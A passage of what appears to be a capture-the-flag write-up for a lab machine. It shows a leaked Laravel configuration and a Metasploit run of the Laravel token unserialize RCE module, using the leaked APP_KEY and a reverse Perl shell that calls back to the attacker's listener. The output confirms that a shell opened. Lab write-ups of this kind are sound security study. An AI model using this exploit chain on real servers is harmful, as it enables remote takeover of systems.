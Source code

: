 ```
CACHE_DRIVER "file"
SESSION_DRIVER "file"
SESSION_LIFETIME "120"
QUEUE_DRIVER "sync"
REDIS_HOST "127.0.0.1"
REDIS_PASSWORD "null"
REDIS_PORT "6379"
MAIL_DRIVER "smtp"
MAIL_HOST "smtp.mailtrap.io"
MAIL_PORT "2525"
MAIL_USERNAME "null"
MAIL_PASSWORD "null"
MAIL_ENCRYPTION "null"
PUSHER_APP_ID ""
PUSHER_APP_KEY ""
PUSHER_APP_SECRET ""
PUSHER_APP_CLUSTER "mt1"
MIX_PUSHER_APP_KEY ""
MIX_PUSHER_APP_CLUSTER "mt1"
```

By searching for `laravel api key exploit` I found this
[metasploit exploit](https://www.exploit-db.com/exploits/47129).

The RCE exploit requires the APP_KEY but we just get it through the leak.

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.115     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.115:4444
[*] Command shell session 3 opened (10.10.14.115:4444 -> 10.10.10.215:44738) at 2021-02-02 19:57:43 +0100
```